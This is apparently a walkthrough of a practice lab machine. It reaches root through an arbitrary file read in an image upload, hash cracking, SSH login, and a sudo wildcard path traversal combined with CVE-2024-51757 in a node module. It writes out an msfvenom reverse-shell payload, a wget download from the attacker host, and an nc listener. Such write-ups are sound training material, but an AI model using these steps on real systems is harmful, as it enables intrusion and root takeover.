We start by visiting the webserver on port 5000 and registering with an account. We then login and capture an upload request with burp. We can change the filename in the request and point to any file on the system we have read permissions on. We can then retrieve the file with the download image functionality.
Command(s) used: sudo nmap -sU -f -T 5 192.168.229.204  We then read the bash history file in the wp_hub user's home directory. The contents point us towards a database file, which once we read allows us to obtain the user's hash. We crack the hash and connect to the machine via SSH.
Command(s) used: hashcat hash /usr/share/wordlists/rockyou.txt ssh wp_hub@192.168.229.204    We then check our permissions and find that we are allowed to run the following command as root: /usr/bin/web-scraper /root/web_src_downloaded/*.html. If we print out the contents of the script, we notice that it is printing certain lines from any given html file. We also notice it is a symlink to the script in /opt/scraper. After researching the node modules used within the script, we find CVE-2024-51757 and follow this POC: >https://security.snyk.io/vuln/SNYK-JS-HAPPYDOM-8350065. The attack is simple: we enter the payload into an html file in temp and run the sudo command. We use the wildcard in the permitted command to change from the intended root directory to /tmp.
Command(s) used: sudo -l sudo /usr/bin/web-scraper /root/web_src_downloaded/../../tmp/test.html  



We transfer a shell to the temp directory, modify the payload to execute the shell and obtain a reverse shell as root.
Command(s) used: msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.45.239 LPORT=5000 -f elf > shell wget http://192.168.45.239:5000/shell rlwrap nc -lvnp 5000 chmod +x shell 